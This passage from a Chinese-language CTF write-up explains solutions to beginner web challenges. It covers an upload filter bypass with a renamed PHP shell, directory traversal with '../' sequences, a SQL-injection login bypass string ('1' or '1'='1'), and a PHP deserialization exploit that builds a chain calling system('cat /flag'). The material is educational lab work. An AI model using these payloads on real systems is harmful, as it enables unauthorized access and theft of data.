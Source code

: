 这题和上题类似，区别是前端要求我们后缀名为 jpg/png/gif，后端限制 MIME 格式为 `image/jpeg` 之类的。我们直接上传 jpg 文件，那么最终服务器是不会解析 jpg 文件的。所以我们先把 `evil.php` 改名为 `evil.jpg`，然后上传，在过程中，我们使用 burpsuite 拦截，然后把文件名改为 `evil.php`，然后发送即可。

## 垫刀之路04: 一个文件浏览器

这题看到的是一堆文件和文件夹。题目提示说注意看 readme 文件。我们访问 `src/readme.md` ，可以看到下面有一些英文注释，提醒这个文件夹是没用的。其实整个显示的文件夹都是没用的，里面是我随便塞的一个文件。ctf 题目通常和题目具体提供的服务没太大关系，反而需要关注到提供服务过程中暴露出的漏洞。比如说这一题，url 中出现了参数 `?path=src`, 那么这题可能和**目录穿越漏洞**有关。我们直接 `?path=../../../../../` 看见根目录文件即可。

最后顺着题目的线索，我们访问 `/tmp/flag` 即可。这个位置有点偏，但我觉得无伤大雅。毕竟已经可视化文件目录里，找一下也无所谓吧，就当时给其他题往这里藏 flag 的心理准备吧。

## 垫刀之路05: 登陆网站

这题是一个登陆页面。题目要求我们只要登陆成功即可。题目还提示我们登陆的账号名，以及密码不好破译。但是这样表述可能有点问题，有的人可能因此还是去爆破了。但是只是为了登陆，我们要想到**sql注入**。

具体过程不展示，总之就是单引号的万能密码：

```
1' or '1'='1
```

把上面的填在密码那里就行。

## 垫刀之路06: pop base mini moe

这题是 php 反序列化漏洞的基础题。观察到 classB 有一个 `__invoke` 函数。这是一个 php 魔术方法，当对象被当作函数调用时自动触发。所以我们可以把一个对象 B 当作函数调用。这条链的起点就是 `__destruct` 函数。

想要把一个对象赋值给一个对象属性，而且还是私有的属性，我们不能直接赋值，也不能在外面赋值，但是我们可以使用 `__construct` 构造函数来赋值。下面就是 exp：

```php
<?php

class A {
    // 注意 private 属性的序列化哦
    private $evil = "cat /flag";

    // 如何赋值呢
    private $a;

    public function __construct() {
        $this->a = new B();


    }
}

class B {
    private $b = "system";

}

$a = new A();
echo urlencode(serialize($a));
```
